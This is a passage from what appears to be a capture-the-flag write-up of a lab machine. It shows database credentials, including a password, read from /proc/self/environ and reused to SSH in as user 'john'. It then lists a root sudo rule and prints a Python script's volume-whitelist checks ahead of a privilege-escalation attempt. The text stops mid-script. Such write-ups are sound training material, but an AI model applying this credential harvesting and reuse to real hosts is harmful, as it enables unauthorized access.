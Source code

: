 ~~~zsh
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~text
DBHOST=db
DBNAME=webhooks_api
DBPASS=ngFfX2L71Nu
DBUSER=dbuser
~~~
{:file="STDOUT" .nolineno}

We successfully read the database connection information referenced in `config.php`{:.filepath} from the process environment variables at `/proc/self/environ`{:.filepath}. A shell was established on the host machine via SSH with the database password and the username "john", which was found earlier in `/mnt/.ssh/authorized_keys`{:.filepath} on the implant session.

~~~zsh
# Connect via SSH
ssh john@$rhost # use DBPASS value
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}


## Privilege Escalation

Now logged in as _john_, We noticed a special sudo exception to run a Python script at `/opt/secure_compose.py`{:.filepath} as root with arguments matching `*.yml`.

~~~bash
# List sudo security policy
sudo -l
~~~
{:file="john@cybermonday ➤ bash" .nolineno}

~~~text
User john may run the following commands on localhost:
    (root) /opt/secure_compose.py *.yml
~~~
{:file="STDOUT" .nolineno}


### Docker Compose

The Python script at `/opt/secure_compose.py`{:.filepath} allowed us to start Docker containers using the command-line `docker-compose` utility, and implemented some checks for security purposes. One of these checks, `is_path_inside_whitelist`, should deny volumes outside of `/home/john`{:.filepath} or `/mnt`{:.filepath}. Another check, `check_no_symlinks`, should prevent the use of symbolic links to access files outside of those permitted folders.

~~~py
import sys, yaml, os, random, string, shutil, subprocess, signal

def get_user():
    return os.environ.get("SUDO_USER")

def is_path_inside_whitelist(path):
    whitelist = [f"/home/{get_user()}", "/mnt"]

    for allowed_path in whitelist:
        if os.path.abspath(path).startswith(os.path.abspath(allowed_path)):
            return True
    return False

def check_whitelist(volumes):
    for volume in volumes:
        parts = volume.split(":")
        if len(parts) == 3 and not is_path_inside_whitelist(parts[0]):
            return False
~~~